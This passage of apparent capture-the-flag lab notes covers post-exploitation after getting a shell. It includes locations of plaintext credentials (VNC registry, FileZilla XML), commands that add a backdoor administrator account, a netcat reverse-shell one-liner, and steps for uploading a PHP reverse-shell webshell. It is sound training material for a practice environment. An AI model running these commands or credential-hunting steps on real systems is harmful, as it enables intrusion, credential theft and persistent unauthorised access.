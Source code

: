 
Task12: Next Steps
-------------------

We've covered lots of ways to generate, send and receive shells. The one thing that these all have in common is that they tend to be unstable and non-interactive. Even Unix style shells which are easier to stabilise are not ideal.

So, what can we do about this?

On **Linux** ideally we would be looking for opportunities to gain access to a user account. Finding credentials like ssh keys to gain a **proper shell** or executing some **exploits** to _add our very own accounts_ or perform **BOF** to _gain shell_ access, or cracking password from /etc/passwd and /etc/shadow due to  inappropiate file permission.


On **Windows**, the options are often _more limited_. It's sometimes possible to find **passwords** for _running services in the registry_. [VNC servers](https://discover.realvnc.com/what-is-vnc-remote-access-technology)(Remote access/screen sharing software), for example, frequently leave ***passwords in the registry stored in plaintext***. 


Some versions of the FileZilla FTP server also leave credentials in an XML file at`C:\Program Files\FileZilla Server\FileZilla Server.xml` or `C:\xampp\FileZilla Server\FileZilla Server.xml`. This can be MD5 hashes or in plaintext, depending on the version. 


##### Ideally on Windows you would obtain a shell running as the SYSTEM user, or an administrator account running with high privileges. In such a situation it's possible to **simply add your own account (in the administrators group)** to the machine, then log in over _RDP_, _telnet_, _winexe_, _psexec_, _WinRM_ or any number of other methods, dependent on the services running on the box.

The syntax for this is as follows:

```
net user <username> <password> /add
```

```
net localgroup administrators <username> /add
```

<ins>The important take away from this task:</ins>

> Reverse and Bind shells are an essential technique for gaining remote code execution on a machine, however, they will never be as fully featured as a native shell. Ideally we always want to escalate into using a "normal" method for accessing the machine, as this will invariably be easier to use for further exploitation of the target.


Task 13  Practice and Examples
-------------------------------

1. Try uploading a webshell to the Linux box, then use the command: `nc <LOCAL-IP> <PORT> -e /bin/bash` to send a reverse shell back to a waiting listener on your own machine.

2. Navigate to `/usr/share/webshells/php/php-reverse-shell.php` in Kali and change the IP and port to match your tun0 IP with a custom port. Set up a netcat listener, then upload and activate the shell.
